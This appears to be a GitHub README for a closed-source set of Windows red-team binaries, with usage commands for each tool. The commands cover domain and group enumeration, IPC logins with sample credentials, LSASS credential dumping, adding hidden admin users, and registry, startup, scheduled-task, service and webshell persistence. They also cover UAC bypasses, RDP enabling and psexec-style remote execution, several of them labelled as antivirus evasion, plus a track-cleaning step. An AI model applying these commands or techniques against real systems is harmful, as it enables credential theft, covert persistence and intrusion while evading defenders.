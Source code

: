 # RedTeamTools

###### Tools developed during the personal learning process，if you find some problem I hope you can give me a issue let me know how to become better，thanks

###### Tools are not open source, use them and cherish them

```
Notes:
Some tools introduce you can go to my blog, you can get more design details

Blog address:
https://yangsirrr.github.io/
```

## 01Get Target User

```
new1.exe \\192.168.3.144
```

## 02Get Target Local Administrators Group

```
new2.exe administrators \\192.168.3.144
```

## 03Get Target All Local Group

```
new3.exe \\192.168.3.144
```

## 04Get Target Goup Member

```
new4.exe "domain admins" \\192.168.3.144
```

## 05Make The IPC Connect

```
new5.exe \\192.168.3.144 rootkit.org\sqladmin Admin12345
```

## 06Delete The IPC Connect

```
new6.exe \\192.168.3.144
```

## 07Get The Internet Session To Help Find The Domain Manager

```
new7.exe \\192.168.3.144
```

## 08Get Login User To Help Find The Domain Manager

```
new8.exe \\192.168.3.144
```

## 09Dump Lsass BypassAV

```
new9-1.exe
```

## 10Fast Information Collection

```
You can use in the workgroup OR domain computer
new10_domain.exe > 1.txt
new10_workgroup.exe > 2.txt
```

## 11Add Admin User BypassAV

```
new11.exe user pass
11.vbs #direct to use
easy11_direct.exe #direct to use   admininfo:support_win2019$/NoBase64==
easy11.dll  #rundll32 easy11.dll admin  admininfo:DefaultAccount$/NoBase64==
```

## 12Write The Registry

```
12.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/12-2.png)

## 13Write The Start Dir

```
13.exe
Make sure your tar exe in the C:\Windows\Temp\Updating.exe
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/13.png)

## 14Taskplan To Exec Your EXE

```
14.exe c:\123\321.exe A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-1.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-2.png)

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/14-3.png)

## 15Taskplan To Backup Your WEBSHELL

```
15x32.exe C:\phpstudyWWW\shell.php A
Very to use，like to this
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145033771.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Add%20A%20Scheduled%20Task%20BypassAV%EF%BC%88WEBSHELL%EF%BC%89/image-20210920145309610.png)
## 16Use The Registry To Bypassuac(BypassAV)
```
Now this program have six plans to bypassuac in win10 maybe can use in win7(I don't have win7 machine to test)
you can easy to use, such as 16x64.exe 1or2or3or4or5or6 cmd.exe
16x64.exe 5 cmd.exe
```
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/1.png)
![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20The%20Registry%20To%20Bypassuac(BypassAV)/2.png)

## 17Use DLL Hijack To Bypassuac

```
After a simple test, two methods win10, Win11 can be successfully used
make sure upload the exe&jpg to your target windows, you can easy to use:
pic1_a.exe or pic2_a.exe

when you success, don't forget to clean up the tracks:
picall_clean.exe
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/image-20211009131805909.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/image-20211009143909641.png)

```
bypass result
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Use%20DLL%20Hijack%20To%20BypassUAC/bypass.gif)

## 18Fast Open Rdpport(BypassAV)

```
Easy to open the rdpport win10 can be success
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/18.gif)

```
bypass360
```

![](https://raw.githubusercontent.com/YangSirrr/YangsirRedTeamTools/main/00Tools%20Img%20From%20Readme/18-2.gif)

## 19PsexecLiker

```
19.exe 192.168.159.143 administrator Aa123456 C:\Users\Administrator\Desktop\1.exe test
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/PsexecLiker/psexec1.gif)

## 20Windows Service Auto Start(BypassAV)

```
20.exe servicename filepath
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Windows%20Service%20Auto%20Start(BypassAV)/image-20211105211254595.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/Windows%20Service%20Auto%20Start(BypassAV)/image-20211105210252245.png)

## 21LdapQuery

```
Usage: 21x32.exe target username password  basedn filterwayORyourfilter
Eg:    21x32.exe 192.168.3.144 sqladmin Admin12345   DC=rootkit,DC=org  B
Eg:    21x32.exe 192.168.3.144 sqladmin Admin12345   DC=rootkit,DC=org  (objectClass=person)
A:search user
B:search computer
C:search unconstrained delegation computer
D:search delegation computer

More introduce you can go to:
https://yangsirrr.github.io/2021/11/16/shi-xian-ldap-xin-xi-shou-ji/
```

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/LDAPquery/image-20211116174538717.png)

![](https://raw.githubusercontent.com/YangSirrr/Yangsir-blog-img/master/LDAPquery/image-20211116174456877.png)
